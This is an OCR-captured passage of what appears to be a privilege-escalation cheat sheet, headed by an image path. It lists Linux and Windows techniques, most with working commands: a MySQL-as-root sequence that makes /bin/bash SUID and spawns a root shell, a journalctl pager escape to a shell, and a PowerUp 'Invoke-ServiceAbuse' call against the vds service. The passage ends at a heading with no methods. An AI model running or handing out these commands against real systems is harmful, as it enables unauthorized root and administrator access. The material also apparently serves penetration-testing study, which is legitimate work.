 Methods:

-   ps aux \| grep root

> mysql -u root -p
>
> \\! chmod +s /bin/bash
>
> Exit
>
> /bin/bash -p
>
> id && whoami

<a name="abusing-journalctl"></a>
# Abusing journalctl

Domain: No

Local Admin: Yes

OS: Linux

Type: Abusing Services

Methods:

-   Journalctl

-   !/bin/sh

<a name="abusing-vds"></a>
# Abusing VDS

Domain: No

Local Admin: Yes

OS: Windows

Type: Abusing Services

Methods:

. .\\PowerUp.ps1

Invoke-ServiceAbuse -Name 'vds' -UserName 'domain\\user1'

<a name="abusing-browser"></a>
# Abusing Browser

Domain: No

Local Admin: Yes

OS: Windows
